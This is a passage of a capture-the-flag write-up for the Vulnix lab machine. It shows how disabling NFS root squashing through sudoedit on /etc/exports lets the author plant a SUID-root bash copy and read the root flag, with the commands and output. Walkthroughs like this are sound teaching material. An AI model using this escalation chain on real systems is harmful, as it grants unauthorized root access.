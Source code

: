 And I was able to login with the key: <code>ssh -i /tmp/vulnix vulnix@192.168.217.142</code>. After some enumeration, I discovered that the vulnix user can edit <code>/etc/exports</code> with sudo privileges:

``` 
vulnix@vulnix:~$ sudo -l
Matching 'Defaults' entries for vulnix on this host:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
```

This is wonderful news. First of all, we need to disable *root_squash*. Then we can mount the root directory and read the flag, or we can leave a shell binary in vulnix's home directory, and run it later with root privileges. Let's do just that! I disabled root squashing with <code>/home/vulnix    *(rw,no_root_squash)</code>. Then I copied the bash executable:

``` 
vulnix@vulnix:~$ cp /bin/bash /home/vulnix/
vulnix@vulnix:~$ ls -l
total 900
-rwxr-xr-x 1 vulnix vulnix 920788 Jun 21 14:46 bash
```

For the NFS configuration changes to take effect, I needed to make the NFS service to reload its configuration file or restart it, but I didn't have permissions to do that. So I rebooted the machine (but unmounted the share first). After rebooting, I mounted the share again, navigated to it as root with no problems, and changed permissions on the bash shell to make it SUID: <code>chmod 4777 bash</code> (I also copied it again as root).

From the SSH, I verified it as the vulnix user:

``` 
vulnix@vulnix:~$ ls -l bash
-rwsrwxrwx 1 root root 920788 Jun 21 15:34 bash
```

Finally, I ran the shell while preserving its permissions:

``` 
vulnix@vulnix:~$ ./bash -p
bash-4.2# whoami
root
bash-4.2# cat /root/trophy.txt
cc614640424f5bd60ce5d5264899c3be
```

Not done yet, I cracked the MD5 hash to reveal the name of the l33t name of the author: Reb00tu53r. This was a fun one!


**Learn more**

- [NFSShell on Kali Linux](https://www.phillips321.co.uk/2015/09/15/nfsshell-on-kali-linux-2-0/)

- [Using nfsshell to compromise older environments](https://www.pentestpartners.com/security-blog/using-nfsshell-to-compromise-older-environments/)
